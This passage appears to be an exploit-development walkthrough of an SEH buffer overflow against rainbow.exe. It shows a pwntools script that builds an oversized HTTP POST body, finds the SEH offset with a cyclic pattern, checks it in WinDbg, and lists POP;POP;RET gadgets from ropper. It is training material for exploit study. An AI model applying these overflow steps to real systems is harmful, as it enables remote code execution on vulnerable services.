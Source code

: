 We should also consider bad bytes. As this is a POST request, `0x00, 0x0d, 0x0a` wont be valid.

## SEH Offset

Updating the script to use a cyclic pattern for the body instead of A's
```
max_buf = 0x384
 
body = pwn.util.cyclic.cyclic_metasploit(max_buf)

payload =  b"POST / HTTP/1.1\r\n"
payload += b"Host: %s\r\n" % HOST
payload += b"Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0\r\n"
payload += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\n"
payload += b"Content-Type: application/x-www-form-urlencoded\r\n"
payload += b"Content-Length: %d\r\n\r\n" % len(body)
payload += body 
```

Recrashing the application shows the NSEH record is now `0x77413177`

Validating the offset is right:
```
max_buf = 0x384
 
body = pwn.util.cyclic.cyclic_metasploit(max_buf)
deref_off = pwn.util.cyclic.cyclic_metasploit_find(0x77413177)

body = b"A"*deref_off
body += b"B"*4
body += b"C"*4
body += b"D" * (max_buf - len(body))
```

So the NSEH record should be BBBB
```
0:003> !exchain
009ef8e4: Rainbow+a040 (0040a040)
009ef924: Rainbow+a040 (0040a040)
009efbe4: 42424242
Invalid exception stack at 41414141
```

Nice!

# Redirecting Execution
Checking for PPRs with ropper:
```
ropper -f rainbow.exe --ppr
POP;POP;RET Instructions
========================
0x004091b7: pop edi; pop esi; ret; 
0x004092ad: pop ecx; pop ebp; ret; 
0x004094d8: pop ecx; pop ecx; ret; 
0x00409569: pop esi; pop ebp; ret; 
0x00409657: pop esi; pop ebp; ret; 
0x00409add: pop esi; pop ebx; ret; 
0x00409b09: pop esi; pop ebx; ret; 
0x00409b81: pop esi; pop ebp; ret; 
```
